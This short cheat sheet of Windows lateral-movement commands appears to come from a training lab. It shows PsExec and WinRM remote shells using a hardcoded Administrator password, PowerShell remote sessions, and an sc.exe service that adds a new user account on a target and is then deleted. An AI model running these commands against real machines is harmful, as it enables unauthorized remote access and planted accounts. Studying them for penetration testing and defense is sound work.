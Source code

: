 ## PSExec
```shell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
## WinRM
```shell
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
Creating PS Credential Object
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Getting Remote Shell
```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```
Running Remote Command
```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```
## SC
Create Service
```shell
sc.exe \\TARGET create $ServiceName binPath= "net user $Username Pass123 /add" start= auto
sc.exe \\TARGET start $ServiceName
```
Kill and delete service
```shell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```